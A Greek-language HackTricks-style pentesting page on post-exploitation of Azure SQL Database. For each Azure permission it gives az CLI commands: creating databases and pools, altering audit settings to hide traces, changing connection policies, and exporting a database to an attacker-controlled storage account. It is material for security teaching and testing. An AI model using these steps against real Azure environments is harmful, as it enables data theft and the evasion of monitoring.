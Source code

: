 # Az - SQL Database Post Exploitation

{{#include ../../../banners/hacktricks-training.md}}

## SQL Database Post Exploitation

Για περισσότερες πληροφορίες σχετικά με τη SQL Database, ελέγξτε:

{{#ref}}
../az-services/az-sql.md
{{#endref}}

### `Microsoft.Sql/servers/databases/read`, `Microsoft.Sql/servers/read` && `Microsoft.Sql/servers/databases/write`

Με αυτές τις άδειες, ένας επιτιθέμενος μπορεί να δημιουργήσει και να ενημερώσει βάσεις δεδομένων μέσα στο παραβιασμένο περιβάλλον. Αυτή η δραστηριότητα μετά την εκμετάλλευση θα μπορούσε να επιτρέψει σε έναν επιτιθέμενο να προσθέσει κακόβουλα δεδομένα, να τροποποιήσει τις ρυθμίσεις της βάσης δεδομένων ή να εισάγει backdoors για περαιτέρω επιμονή, ενδεχομένως διαταράσσοντας τις λειτουργίες ή επιτρέποντας επιπλέον κακόβουλες ενέργειες.
```bash
# Create Database
az sql db create --resource-group <resource-group> --server <server-name> --name <new-database-name>

# Update Database
az sql db update --resource-group <resource-group> --server <server-name> --name <database-name> --max-size <max-size-in-bytes>
```
### `Microsoft.Sql/servers/elasticPools/write` && `Microsoft.Sql/servers/elasticPools/read`

Με αυτές τις άδειες, ένας επιτιθέμενος μπορεί να δημιουργήσει και να ενημερώσει elasticPools μέσα στο παραβιασμένο περιβάλλον. Αυτή η δραστηριότητα μετά την εκμετάλλευση θα μπορούσε να επιτρέψει σε έναν επιτιθέμενο να προσθέσει κακόβουλα δεδομένα, να τροποποιήσει τις ρυθμίσεις της βάσης δεδομένων ή να εισάγει backdoors για περαιτέρω επιμονή, ενδεχομένως διαταράσσοντας τις λειτουργίες ή επιτρέποντας επιπλέον κακόβουλες ενέργειες.
```bash
# Create Elastic Pool
az sql elastic-pool create \
--name <new-elastic-pool-name> \
--server <server-name> \
--resource-group <resource-group> \
--edition <edition> \
--dtu <dtu-value>

# Update Elastic Pool
az sql elastic-pool update \
--name <elastic-pool-name> \
--server <server-name> \
--resource-group <resource-group> \
--dtu <new-dtu-value> \
--tags <key=value>
```
### `Microsoft.Sql/servers/auditingSettings/read` && `Microsoft.Sql/servers/auditingSettings/write`

Με αυτή την άδεια, μπορείτε να τροποποιήσετε ή να ενεργοποιήσετε τις ρυθμίσεις ελέγχου σε έναν Azure SQL Server. Αυτό θα μπορούσε να επιτρέψει σε έναν επιτιθέμενο ή εξουσιοδοτημένο χρήστη να χειριστεί τις ρυθμίσεις ελέγχου, ενδεχομένως καλύπτοντας τα ίχνη ή ανακατευθύνοντας τα αρχεία καταγραφής ελέγχου σε μια τοποθεσία υπό τον έλεγχό τους. Αυτό μπορεί να εμποδίσει την παρακολούθηση ασφαλείας ή να επιτρέψει την παρακολούθηση των ενεργειών. ΣΗΜΕΙΩΣΗ: Για να ενεργοποιήσετε τον έλεγχο για έναν Azure SQL Server χρησιμοποιώντας Blob Storage, πρέπει να συνδέσετε έναν λογαριασμό αποθήκευσης όπου μπορούν να αποθηκευτούν τα αρχεία καταγραφής ελέγχου.
```bash
az sql server audit-policy update \
--server <server_name> \
--resource-group <resource_group_name> \
--state Enabled \
--storage-account <storage_account_name> \
--retention-days 7
```
### `Microsoft.Sql/locations/connectionPoliciesAzureAsyncOperation/read`, `Microsoft.Sql/servers/connectionPolicies/read` && `Microsoft.Sql/servers/connectionPolicies/write`

Με αυτή την άδεια, μπορείτε να τροποποιήσετε τις πολιτικές σύνδεσης ενός Azure SQL Server. Αυτή η δυνατότητα μπορεί να εκμεταλλευτεί για να ενεργοποιήσει ή να αλλάξει τις ρυθμίσεις σύνδεσης σε επίπεδο διακομιστή.
```bash
az sql server connection-policy update \
--server <server_name> \
--resource-group <resource_group_name> \
--connection-type <Proxy|Redirect|Default>
```
### `Microsoft.Sql/servers/databases/export/action`

Με αυτή την άδεια, μπορείτε να εξάγετε μια βάση δεδομένων από έναν Azure SQL Server σε έναν λογαριασμό αποθήκευσης. Ένας επιτιθέμενος ή εξουσιοδοτημένος χρήστης με αυτή την άδεια μπορεί να εξάγει ευαίσθητα δεδομένα από τη βάση δεδομένων εξάγοντας τα σε μια τοποθεσία που ελέγχει, θέτοντας σε κίνδυνο μια σημαντική παραβίαση δεδομένων. Είναι σημαντικό να γνωρίζετε το κλειδί αποθήκευσης για να μπορέσετε να το εκτελέσετε αυτό.
```bash
az sql db export \
--server <server_name> \
--resource-group <resource_group_name> \
--name <database_name> \
--storage-uri <storage_blob_uri> \
--storage-key-type SharedAccessKey \
--admin-user <admin_username> \
--admin-password <admin_password>

```
### `Microsoft.Sql/servers/databases/import/action`

Με αυτή την άδεια, μπορείτε να εισάγετε μια βάση δεδομένων σε έναν Azure SQL Server. Ένας επιτιθέμενος ή εξουσιοδοτημένος χρήστης με αυτή την άδεια μπορεί δυνητικά να ανεβάσει κακόβουλες ή παραποιημένες βάσεις δεδομένων. Αυτό μπορεί να οδηγήσει σε απόκτηση ελέγχου πάνω σε ευαίσθητα δεδομένα ή με την ενσωμάτωση επιβλαβών σεναρίων ή triggers μέσα στη εισαγόμενη βάση δεδομένων. Επιπλέον, μπορείτε να την εισάγετε στον δικό σας server στο Azure. Σημείωση: Ο server πρέπει να επιτρέπει στις υπηρεσίες και τους πόρους του Azure να έχουν πρόσβαση στον server.
```bash
az sql db import --admin-user <admin-user> \
--admin-password <admin-password> \
--name <target-database-name> \
--server <azure-sql-server-name> \
--resource-group <resource-group-name> \
--storage-key-type SharedAccessKey \
--storage-key <storage-account-key> \
--storage-uri `https://<storage-account-name>.blob.core.windows.net/bacpac-container/MyDatabase.bacpac`
```
{{#include ../../../banners/hacktricks-training.md}}
